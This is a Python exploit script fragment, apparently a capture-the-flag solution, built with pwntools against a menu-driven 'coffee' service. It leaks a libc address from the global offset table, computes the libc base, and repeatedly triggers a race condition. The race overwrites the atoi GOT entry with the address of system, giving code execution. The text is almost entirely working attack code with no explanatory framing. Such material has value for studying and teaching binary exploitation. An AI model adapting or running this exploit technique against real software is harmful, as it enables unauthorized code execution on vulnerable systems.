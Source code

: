 ```python
payload += 'a'*9
payload += p32(e.got['__libc_start_main'])
add(0,payload)
leak = view()
libc_main = u64(leak[0][2].ljust(8,"\0"))
l.address = libc_main - l.symbols['__libc_start_main']

log.info("libc.main = 0x%x"%(libc_main))
log.info("libc.base = 0x%x"%(l.address))

if l.address < 0:
    log.critical("Leaking address failed...")
    p.close()
    exit(1)

delete()

log.info("trigger race condition")

payload = ''
payload += "A"*9
payload += p32(e.got['atoi'])

while True:
    p.sendline("2")
    p.readuntil("> ")
    p.sendline("1")
    p.readuntil("> ")
    p.sendline("3")
    if not ">" in p.readuntil("..."):
        p.readuntil("> ")

    sleep(0.998)

    for i in range(3):
        p.sendline("2")
        p.readuntil("> ")
        p.sendline("1")
        p.readuntil("> ")
        p.sendline("1")
        if not ">" in p.readuntil("..."):
            p.readuntil("> ")

    while True:
        p.sendline("2")
        p.readuntil("> ")
        p.sendline("2")
        p.readuntil("coffee? ")
        p.sendline("0")
        if not ("no" in p.read(4)):
            break
        p.readuntil("> ")

    p.send(payload)
    p.readuntil("> ")

    p.sendline("2")
    p.readuntil("> ")
    p.sendline("3")
    p.readuntil("coffee? ")
    p.sendline("0")
    p.readuntil("coffee? ")
    p.send(p64(l.symbols['system']))
```